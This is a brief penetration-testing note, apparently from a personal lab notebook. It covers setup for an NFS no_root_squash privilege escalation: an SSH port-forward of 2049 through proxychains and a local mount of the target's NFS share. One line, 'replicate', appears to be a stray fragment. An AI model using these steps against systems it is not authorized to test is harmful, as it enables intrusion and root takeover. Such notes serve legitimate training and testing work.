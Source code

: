 no_root_squash was found in linpeas.

Requires ssh login creds.

On Kali:
```bash - kali
mkdir Share
```

Here, we ssh into the target box, open a local port of 2049, and forward the traffic from the target box to it.
```bash - kali
proxychains ssh -f -N $USER@$TARGET -L 2049:127.0.0.1:2049
```

```bash - kali
replicate
```

We should be able to see 2049 open on Kali:
```bash - kali
sudo ss -antp | grep 2049
```

```bash - kali
sudo mount -t nfs 127.0.0.1:/srv/Share/ Share
```

[[11._NFS#Root Squashing]]
